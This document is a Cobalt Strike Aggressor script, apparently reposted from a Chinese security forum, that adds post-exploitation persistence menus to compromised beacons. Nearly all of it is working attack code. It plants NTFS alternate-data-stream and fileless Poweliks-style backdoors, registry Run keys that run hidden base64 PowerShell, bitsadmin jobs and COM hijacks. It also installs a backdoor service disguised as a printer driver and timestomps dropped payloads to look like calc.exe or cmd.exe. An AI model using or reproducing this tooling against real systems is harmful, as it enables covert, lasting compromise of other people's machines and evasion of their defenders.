"powershell.exe -nop -w hidden -encodedcommand $psPayload";binput($bid, "powershell-import Invoke-ADSBackdoor.ps1");# $bid is actually an array, so use $bid[0] for -isadmin# Admitettly hacky way to avoid using lambdaif (-isadmin $bid[0]){blog($bid, "Beacon is admin, using HKLM hive, \Ubackdoor will execute for any user\U");binput($bid, "powershell Invoke-ADSBackdoor -RegKeyName \" $+ $theADSRegName $+ \" -backdoored_file_path $1 -cobaltstrike_gen_payload \" $+ $fullPsPayload $+ \" -admin");bpowershell($bid, "Invoke-ADSBackdoor -RegKeyName \" $+ $theADSRegName $+ \" -backdoored_file_path \" $+ $1 $+ \" -cobaltstrike_gen_payload \" $+ $fullPsPayload $+ \" -admin");} else {blog($bid, "Beacon is not admin, using HKCU hive, \Ubackdoor will only execute for this user\U");binput($bid, "powershell Invoke-ADSBackdoor -RegKeyName \" $+ $theADSRegName $+ \" -backdoored_file_path $1 -cobaltstrike_gen_payload \" $+ $fullPsPayload $+ \"");bpowershell($bid, "Invoke-ADSBackdoor -RegKeyName \" $+ $theADSRegName $+ \" -backdoored_file_path \" $+ $1 $+ \" -cobaltstrike_gen_payload \" $+ $fullPsPayload $+ \"");}});}sub createFilelessBackdoor{$bid = $1;$selectedListener = $2;openOrActivate($bid);$psPayload = powershell_encode_stager(shellcode($selectedListener));binput($bid, "powershell-import Persist-Poweliks.ps1");bpowershell_import($bid, script_resource("scripts/Persist-Poweliks.ps1"));binput($bid, "powershell Persist-Poweliks");bpowershell($bid, "Persist-Poweliks -cobaltstrike_gen_payload \" $+ $psPayload $+ \"");}# 返回用于注册表名称的字符串sub getADSRegName {prompt_text("Registry key name you'd like to use?", "Update", {$theADSRegName = $1;});return $theADSRegName;}#bitsadminsub persistbits {$bid = $1;$dialog = dialog("Bitsadmin Persistence", %(jobname => "", exe => ""), &bitsadmin);dialog_description($dialog, "Creates a bitsadmin job to execute as your current user context. This job will be executed every time the user logs in. Currently only works on Windows 7, 8, Server 2008, Server 2012.");drow_text($dialog, "jobname", "Name for bitsadmin job:");drow_text($dialog, "exe", "Payload Executable (Use full path):");dbutton_action($dialog, "Create");dialog_show($dialog);}sub bitsadmin {blog($bid, "Installing bitsadmin Persistence as ".$3["jobname"]."..");bpowerpick!($bid, 'bitsadmin /rawreturn /create '.$3['jobname'].'');bpowerpick!($bid, 'bitsadmin /rawreturn /addfile '.$3['jobname'].' C:\\Windows\\System32\\user32.dll C:\\Users\\Public\\Documents\\user32.gif');bpowerpick!($bid, 'bitsadmin /rawreturn /setnotifycmdline '.$3['jobname'].' '.$3['exe'].' NULL');bpowerpick!($bid, 'bitsadmin /rawreturn /setpriority '.$3['jobname'].' high');bpowerpick!($bid, 'bitsadmin /rawreturn /resume '.$3['jobname'].'');}#HKCU Run Key Registry PowerShell Persistencesub payloadgenerate {foreach $name (listeners()) {$original_listener = $name;$listener_name = lc($name);if ($listener_name hasmatch "http" || $listener_name hasmatch "https") {$data = artifact($original_listener, "powershell");return base64_encode($data);}}}sub persistRegistryPowerShell {$bid = $1;$dialog = dialog("HKCU Run Key Registry PowerShell Persistence (User Level)", %(keyname => "Key Name for Payload..", keyname1 => "Key Name to execute Payload.."), lambda({if ("$3['keyname']" ismatch 'Key Name for Payload..' || "$3['keyname1']" ismatch 'Key Name to execute Payload..') {berror($bid, "\c4Please enter valid Registry Key Names.");break;}else {$data = payloadgenerate($bid);$powershellcmd = "Set-ItemProperty -Path 'HKCU:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname']."' -Type String -Value \"".$data."\"";bpowerpick!($bid, $powershellcmd);blog($bid, "\cBSetting the first HKCU Run Key Value as '".$3['keyname']."'...");$powershellcmd1 = "Set-ItemProperty -Path 'HKCU:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname1']."' -Value 'C:\\Windows\\SySWoW64\\WindowsPowerShell\\v1.0\\powershell.exe -w hidden -c (IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((gp HKCU:Software\\Microsoft\\Windows\\CurrentVersion\\Run ".$3['keyname'].").".$3['keyname']."))))'";bpowerpick!($bid, $powershellcmd1);blog($bid, "\cBSetting the second HKCU Run Key Value as '".$3['keyname1']."'...");blog($bid, "\cBDisplaying both Run Keys to Verify everything worked as intended...");$powershellcmd2 = "Get-ItemProperty -Path 'HKCU:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname']."'";bpowerpick!($bid, $powershellcmd2);$powershellcmd3 = "Get-ItemProperty -Path 'HKCU:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname1']."'";bpowerpick!($bid, $powershellcmd3);}}));dialog_description($dialog, "HKCU Run Key Registry PowerShell Persistence - Generates a powershell Base64 Encoded payload as a HKCU Run Key Registry Entry for persistence on selected beacon.");drow_text($dialog, "keyname", "Registry Key Name for Payload:");drow_text($dialog, "keyname1", "Registry Key Name to execute Payload:");dbutton_action($dialog, "Create");dialog_show($dialog);}#HKLM Run Key Registry PowerShell Persistencesub payloadgenerate {foreach $name (listeners()) {$original_listener = $name;$listener_name = lc($name);if ($listener_name hasmatch "http" || $listener_name hasmatch "https") {$data = artifact($original_listener, "powershell");return base64_encode($data);}}}sub persistRegistryHKLM {$bid = $1;$dialog = dialog("HKLM Run Key Registry PowerShell Persistence (User Level)", %(keyname => "Key Name for Payload..", keyname1 => "Key Name to execute Payload.."), lambda({if ("$3['keyname']" ismatch 'Key Name for Payload..' || "$3['keyname1']" ismatch 'Key Name to execute Payload..') {berror($bid, "\c4Please enter a valid Registry Key Names, Payload, and a valid Path location.");break;}else {$data = payloadgenerate($bid);$powershellcmd = "Set-ItemProperty -Path 'HKLM:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname']."' -Type String -Value \"".$data."\"";bpowerpick!($bid, $powershellcmd);blog($bid, "\cBSetting the first HKLM Run Key Value as '".$3['keyname']."'...");$powershellcmd1 = "Set-ItemProperty -Path 'HKLM:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname1']."' -Value 'C:\\Windows\\SySWoW64\\WindowsPowerShell\\v1.0\\powershell.exe -w hidden -c (IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((gp HKLM:Software\\Microsoft\\Windows\\CurrentVersion\\Run ".$3['keyname'].").".$3['keyname']."))))'";bpowerpick!($bid, $powershellcmd1);blog($bid, "\cBSetting the second HKLM Run Key Value as '".$3['keyname1']."'...");blog($bid, "\cBDisplaying both Run Keys to Verify everything worked as intended...");$powershellcmd2 = "Get-ItemProperty -Path 'HKLM:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname']."'";bpowerpick!($bid, $powershellcmd2);$powershellcmd3 = "Get-ItemProperty -Path 'HKLM:SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '".$3['keyname1']."'";bpowerpick!($bid, $powershellcmd3);}}));dialog_description($dialog, "HKLM Run Key Registry PowerShell Persistence - Generates a powershell Base64 Encoded payload as a HKLM Run Key Registry Entry for persistence on selected beacon.");drow_text($dialog, "keyname", "Registry Key Name for Payload:");drow_text($dialog, "keyname1", "Registry Key Name to execute Payload:");dbutton_action($dialog, "Create");dialog_show($dialog);}#StartUpFolder Persistencesub persistThroughStartUpFolder {$bid = $1;$dialog = dialog("Start Up Folder Persistence", %(startup => "Startup Directory Folder..", payload => "Select Payload.."), lambda({if ("$3['startup']" ismatch 'Startup Directory Folder..' || "$3['payload']" ismatch 'Select Payload..') {berror($bid, "\c4Please enter a valid Startup Directory Folder, and select a Payload.");break;}else {bpowerpick($bid, 'cd "'.$3['startup'].'"');bupload($bid, $3['payload']);btimestomp($bid, "$3['payload']", "c:\\windows\\system32\\calc.exe");}}));dialog_description($dialog, "Start Up Folder Persistence - Generates a Startup Folder Entry and places a payload inside that folder. **Windows NT 6.0-10.0/All Users Location - %SystemDrive%\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup | Windows NT 6.0-10.0/Current User Location %SystemDrive%\Users\%UserName%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup");drow_text($dialog, "startup", "StartUp Directory Folder Location:");drow_file($dialog, "payload", "Select Payload:");dbutton_action($dialog, "Create");dialog_show($dialog);}#COM劫持sub Show_COM_GUI{$bid = $1;$dialog = dialog("COM劫持用户登陆", %(),lambda({bupload($bid, $3['file']);bmv($bid,$3['DLL_NAME'],$3['DLL_PATH'])bpowerpick($bid,'Remove-Item "HKCU:\Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}" -Recurse');bpowerpick($bid,'New-Item -Type Directory "HKCU:\Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}"');#brun($bid,"reg add \"HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0358B920-0AC7-461F-98F4-58E32CD89148}\\InProcServer32\" /t REG_SZ /d \"".$3['DLL_PATH'].$3['DLL_NAME']"\" /f")bpowerpick($bid,"New-Item -itemType String 'HKCU:\\Software\\Classes\\CLSID\\{0358B920-0AC7-461F-98F4-58E32CD89148}\\InProcServer32' -Value \"".$3['DLL_PATH'].$3['DLL_NAME']"\" ");bpowerpick($bid,'Set-ItemProperty "HKCU:\Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InProcServer32" -name ThreadingModel -value Both');}));dialog_description($dialog, "劫持任意用户登陆，任意用户登陆时将触发DLL. x64位用x64 dll,x86位用x86 dll。清除劫持:Remove-Item \"HKCU:\\Software\\Classes\\CLSID\\{0358B920-0AC7-461F-98F4-58E32CD89148}\\\" -Recurse");drow_file($dialog, "file", "本地DLL路径: ");drow_text($dialog, "DLL_NAME", "DLL文件名: ");drow_text($dialog, "DLL_PATH", "上传路径+DLL文件名: ");dbutton_action($dialog, "Go");dialog_show($dialog);}popup beacon_bottom {menu "持久化控制" {item "创建后门服务-GenericPrinterDriver"{local ('$bid');# TODO:# * build out a proper Java Swing menu to customize the optionsforeach $bid ($1){prompt_file_open("Select the service exe to use", $null, false, {blog($bid, "\c4Uploading backdoor on beacon $1 using file $2");blog($bid, "Attempting to publish backdoor service");bcd($bid, "C:\\Windows\\");blog($bid, "\c4Changed directory on beacon $1 to C:\\Windows\\");bupload($bid, $2);servicefilename($2);btimestomp($bid, "$servicebackdoorfilename", "C:\\Windows\\system32\\cmd.exe")prompt_text("Name of service to use?", "GenericPrinterDriver", {$serviceName = $1;});prompt_text("Service Display Name to use?", "Generic Printer Driver Support", {$serviceDisplayName = $1;});bshell($bid, "sc create $serviceName binPath= \"C:\\Windows\\ $+ $servicebackdoorfilename $+ \" start= auto DisplayName= \" $serviceDisplayName \"");bshell($bid, "sc start $serviceName ");blog($bid, "Backdoor service created using $servicebackdoorfilename ");blog($bid, "\c9[+] Backdoor creation complete!");});}}item "Create NTFS ADS Backdoor"{local ('$bid');# Open a payload selection dialoge, passes it to createADSBackdoor()# TODO:# * build out a proper Java Swing menu to customize the options# * Modify the powershell script to determine which key to write to HKLM || HKCUforeach $bid ($1){openPayloadHelper(lambda({createADSBackdoor($bid, $1);}, $bid => $1));}}item "&计划任务启动项-持久化" {local('$bid');foreach $bid ($1) {persistUserSchtasks($bid);}}item "&添加EXE到服务-持久化" {local('$bid');foreach $bid ($1) {if (-isadmin $bid) {persistCustomService($bid);}else {berror($1, "\c4Persistence Requires Admin Level Privileges");}}}item "&注册表-持久化" {local('$bid');foreach $bid ($1) {persistRegistry($bid);}}item "&WMI事件-PowerShell-持久化" {local('$bid');foreach $bid ($1) {if (-isadmin $bid) {persistwmievent($bid);}else {berror($1, "\c4Persistence Requires Admin Level Privileges");}}}item "&WMI事件-持久化" {local('$bid');foreach $bid ($1) {if (-isadmin $bid) {persistwmieventwmic($bid);}else {berror($1, "\c4Persistence Requires Admin Level Privileges");}}}item "&脚本-本地GPO-持久化" {local('$bid');foreach $bid ($1) {if (-isadmin $bid) {persistStartupGPO($bid);}else {berror($1, "\c4Persistence Requires Admin Level Privileges");}}}item "&Stickykeys(OSK) BackDoor Persistence (Need RDP Open)" {local('$bid');foreach $bid ($1) {stickykeys($bid);}}item "&Windows启动-持久化"{local('$bid');foreach $bid ($1) {persistThroughStartUpFolder($bid);}}item "Bitsadmin Persistence" {persistbits($1);}item "HKCU Run Key Registry PowerShell Persistence" {persistRegistryPowerShell($1);}item "HKLM Run Key Registry PowerShell Persistence" {persistRegistryHKLM($1);}item "Windows StartUp Folder Persistence" {persistThroughStartUpFolder($1);}item "&COM持久化" {local('$bid');foreach $bid ($1) {Show_COM_GUI($bid);}}menu "Fileless backdoor" {item "Create fileless backdoor"{local('$bid');foreach $bid ($1){openPayloadHelper(lambda({createFilelessBackdoor($bid, $1);}, $bid => $1));}}item "Check for fileless backdoor"{local('$bid');foreach $bid ($1){bpowershell_import($bid, script_resource("scripts/Persist-Poweliks.ps1"));bpowershell($bid, "Test-Poweliks");}}item "Remove fileless backdoor"{local('$bid');foreach $bid ($1){bpowershell_import($bid, script_resource("scripts/Persist-Poweliks.ps1"));bpowershell($bid, "Remove-Poweliks");}}}}}
将上述代码保存为xxx.cna即可让CS引入该脚本
效果图：
当然自己还可以继续追加其他功能，欢迎一起交流
来源：先知社区
作者：By七友
如有侵权，请联系删除